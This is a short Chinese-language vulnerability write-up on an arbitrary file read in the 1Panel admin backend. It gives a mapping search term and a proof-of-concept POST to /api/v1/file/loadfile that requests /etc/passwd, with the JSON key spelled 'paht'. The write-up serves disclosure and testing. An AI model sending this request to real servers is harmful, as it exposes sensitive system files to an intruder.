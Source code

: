 # 1Panel loadfile 后台文件读取漏洞

## 漏洞描述

1Panel 后台存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息文件

## 漏洞影响

<a-checkbox checked>1Panel</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"1Panel"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691724157871-153c523f-4eb1-4145-8c90-b4e7608d792c.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691724195121-1bffe5bb-9161-4087-a15d-68fb29a44fe0.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691724202417-adf0c19b-38a8-4549-95b1-66231a19234f.png)

验证POC

```php
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691724120824-b3faa665-32bc-45f7-a1ad-232aac1a61c0.png)